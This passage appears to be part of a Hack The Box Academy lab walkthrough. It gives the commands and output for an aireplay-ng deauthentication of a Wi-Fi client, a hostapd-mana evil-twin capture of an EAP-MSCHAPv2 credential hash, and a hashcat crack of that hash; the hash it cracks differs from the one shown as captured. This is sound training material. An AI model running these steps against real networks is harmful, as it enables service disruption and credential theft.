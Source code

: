 In another terminal, students need to deauthenticate the client connected to the legitimate `HTB-Wireless` network.

Code: shell

```shell
sudo aireplay-ng -0 20 -a 54:8C:A0:E8:DF:B1 -c  BA:69:91:12:6A:23 wlan0mon       
```

```
wifi@HTB-Corp:~$ sudo aireplay-ng -0 20 -a 54:8C:A0:E8:DF:B1 -c  BA:69:91:12:6A:23 wlan0mon                                                                            
08:13:30  Waiting for beacon frame (BSSID: 54:8C:A0:E8:DF:B1) on channel 1
08:13:30  Sending 64 directed DeAuth (code 7). STMAC: [BA:69:91:12:6A:23] [ 0| 0 ACKs]
08:13:31  Sending 64 directed DeAuth (code 7). STMAC: [BA:69:91:12:6A:23] [ 0| 0 ACKs]
08:13:31  Sending 64 directed DeAuth (code 7). STMAC: [BA:69:91:12:6A:23] [ 0| 0 ACKs]
08:13:32  Sending 64 directed DeAuth (code 7). STMAC: [BA:69:91:12:6A:23] [ 0| 0 ACKs]
<>SNIP>
```

After several moments, students need to check the terminal where `hostapd-mana` was running.

```
<SNIP>
MANA - Directed probe request for SSID 'HTB-Corp' from ba:69:91:12:6a:23
MANA - Directed probe request for SSID 'HTB-Corp' from ba:69:91:12:6a:23
wlan1: STA ba:69:91:12:6a:23 IEEE 802.11: authenticated
wlan1: STA ba:69:91:12:6a:23 IEEE 802.11: associated (aid 1)
wlan1: CTRL-EVENT-EAP-STARTED ba:69:91:12:6a:23
wlan1: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
MANA EAP Identity Phase 0: HTB\Sentinal.Jr
wlan1: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
MANA EAP Identity Phase 1: HTB\Sentinal.Jr
MANA EAP EAP-MSCHAPV2 ASLEAP user=Sentinal.Jr | asleap -C 0c:2b:ac:7e:e5:d9:a8:95 -R c1:ae:91:4c:5d:06:85:dc:cd:52:53:9f:d4:a6:0f:dd:ff:18:5d:01:41:d9:92:47
MANA EAP EAP-MSCHAPV2 JTR | Sentinal.Jr:$NETNTLM$0c2bac7ee5d9a895$c1ae914c5d0685dccd52539fd4a60fddff185d0141d99247:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | Sentinal.Jr::::c1ae914c5d0685dccd52539fd4a60fddff185d0141d99247:0c2bac7ee5d9a895
EAP-MSCHAPV2: Derived Master Key - hexdump(len=16): 9b 1d a5 77 c3 87 ca 1d 99 d5 92 85 25 8b d7 1d
MANA - Directed probe request for SSID 'HTB-Corp' from ba:69:91:12:6a:23
MANA - Directed probe request for SSID 'HTB-Corp' from ba:69:91:12:6a:23
```

Students will see that the victim authenticated using EAP-MSCHAPv2, resulting in the exposure of a hashed password. Therefore, students need to use Hashcat to discover the password's plaintext. `If hashcat produces an error on the target VM, students may run the following command from the Pwnbox.`

Code: shell

```shell
hashcat -m 5500 Sentinal.Jr::::b673c185c28c2db0529dfa9999dbc89b554918a4986058b6:f486df304412f89f /usr/share/wordlists/rockyou.txt.gz
```

```
┌─[us-academy-4]─[10.10.14.139]─[htb-ac-594497@htb-23iatysq9n]─[~]
└──╼ [★]$ hashcat -m 5500 Sentinal.Jr::::b673c185c28c2db0529dfa9999dbc89b554918a4986058b6:f486df304412f89f /usr/share/wordlists/rockyou.txt.gz 

hashcat (v6.2.6) starting

<SNIP>

Sentinal.Jr::::b673c185c28c2db0529dfa9999dbc89b554918a4986058b6:f486df304412f89f:{hidden}
```
